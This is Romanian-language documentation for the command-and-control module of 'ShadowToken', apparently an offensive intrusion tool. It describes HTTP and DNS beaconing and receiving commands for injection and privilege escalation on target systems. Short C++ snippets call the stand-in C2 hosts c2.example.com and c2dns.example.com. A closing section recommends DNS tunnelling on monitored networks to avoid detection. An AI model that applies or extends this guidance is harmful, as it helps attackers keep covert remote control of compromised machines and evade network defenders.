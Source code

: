 # Modulul C2 Communication - Comunicare Command & Control

## Descriere
Modulul de comunicare C2 din ShadowToken gestionează conexiunea între tool și serverul de comandă și control. Acesta trimite periodic beacon-uri pentru a menține conexiunea activă și primește comenzi de la server. Modulul suportă comunicare C2 prin HTTP și DNS, oferind flexibilitate în funcție de cerințele operaționale și mediul de rețea.

## Funcții Principale

### 1. SendBeaconHTTP
Trimite un beacon prin HTTP la serverul C2, utilizat pentru a menține o conexiune activă și pentru a verifica periodic statusul. Beacon-ul poate include informații de identificare ale sistemului și semnalează prezența ShadowToken pe rețea.

- **Parametri**:
  - `serverUrl` - URL-ul serverului C2.
- **Returnează**: Răspunsul serverului C2 sub formă de text.

```cpp
// Exemplu de utilizare
C2_HTTP httpC2("http://c2.example.com");
std::string response = httpC2.SendBeacon();
```
### 2. ReceiveCommandHTTP
Primește comenzi de la serverul C2 prin HTTP. Comenzile primite pot include instrucțiuni pentru injecții, escaladare de privilegii sau actualizări de configurare.

Parametri: Niciunul.
Returnează: Comanda trimisă de server sub formă de text.
```cpp
// Exemplu de utilizare
std::string command = httpC2.ReceiveCommand();
```
### 3. SendBeaconDNS
Trimite un beacon la serverul C2 folosind o interogare DNS, simulând o interogare de tip TXT. Aceasta tehnică este utilizată pentru a reduce detectarea pe rețele unde traficul DNS nu este monitorizat strict.

Parametri:
* dnsDomain - Domeniul utilizat pentru interogarea DNS C2.
Returnează: Răspunsul serverului C2.
```cpp
// Exemplu de utilizare
C2_DNS dnsC2("c2dns.example.com");
std::string response = dnsC2.SendBeacon();
```
### 4. ReceiveCommandDNS
Primește comenzi de la serverul C2 prin intermediul unui răspuns la o interogare DNS. Comenzile sunt incluse în răspunsurile de tip TXT, permițând ShadowToken să opereze stealth în rețele monitorizate.

Parametri: Niciunul.
Returnează: Comanda de la server C2.
```cpp
// Exemplu de utilizare
std::string command = dnsC2.ReceiveCommand();
```
## Structura Modulului
Principalele fișiere din acest modul sunt:

* c2_http.cpp: Implementare pentru comunicarea C2 prin HTTP.
* c2_dns.cpp: Implementare pentru comunicarea C2 prin DNS.

## Importanța Modulului C2 Communication
Modulul de comunicare C2 este crucial pentru controlul și monitorizarea ShadowToken pe sistemele țintă. Acesta permite tool-ului să primească instrucțiuni de la serverul C2 în timp real, asigurând flexibilitate în acțiunile întreprinse și adaptabilitate în funcție de răspunsurile rețelei și mediului.

## Recomandări de Utilizare
Utilizați SendBeaconHTTP și ReceiveCommandHTTP pentru comunicare C2 pe rețele neprotejate sau când traficul HTTP este permis.
Folosiți SendBeaconDNS și ReceiveCommandDNS pe rețele monitorizate, unde traficul DNS nu este restricționat și poate evita detectarea.

## Referinte
[Documentație Microsoft DNS](https://learn.microsoft.com/en-us/windows/win32/dns/dns-start-page)
